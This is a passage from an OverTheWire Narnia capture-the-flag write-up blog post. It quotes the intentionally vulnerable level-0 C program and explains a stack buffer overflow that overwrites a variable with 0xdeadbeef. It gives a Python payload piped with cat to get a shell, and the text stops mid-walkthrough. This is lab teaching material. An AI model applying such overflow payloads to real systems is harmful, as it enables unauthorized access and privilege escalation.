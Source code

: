 ```yaml
---
layout: post
title:  "Narnia 0 - 4 (OverTheWire CTF Writeup)"
date:   2020-09-22 8:00:00 +0100
categories: writeup OverTheWire
---
```


# *Intro*

Hello everyone. This will be the first of my two posts about Over The Wire's Narnia CTF. Today i will cover how i got the solution going from level 1 to 5. 
Let's jump right into it!
> Note: Every time you start a new level you need to connect by using an ssh command that looks like this:
```
ssh narnia0@narnia.labs.overthewire.org -p 2226
```
>and by provinding the password of the previous level. First password is `narnia0`


# *Narnia0*

All binaries for the levels are located at the root folder `/narnia` and the password of each level are in `/etc/narnia_pass/`.Only the user owning the flag can read it. Let's cat out the source code of the first level:

{% highlight c %}
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
{% endhighlight %}
Our objective is simple: We need to overwrite `val` with the hex value `0xdeadbeef` so that the program spawns a shell. I'm assuming you already know how a buffer overflow works, anyway here's a quick recap. Essentially because the buffer `buf` is only 20 bytes long but we can insert how many characters we want, we can write past the end of the buffer and thus overwriting whatever comes after, including the variable `val`.
The following python command will do the job: `python -c "print('\xef\xbe\xad\xde'*40)"`
This outputs the four bytes forming the word `0xdeadbeef` in reverse order becouse we are in [little endian](https://en.wikipedia.org/wiki/Endianness) 
Hovever we also need to keep the input/output pipe open to pass shell commands. We can archieve this by using a `cat` trick.
```
narnia0@narnia:/narnia$ (python -c "print('\xef\xbe\xad\xde'*40)" && cat)  | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
```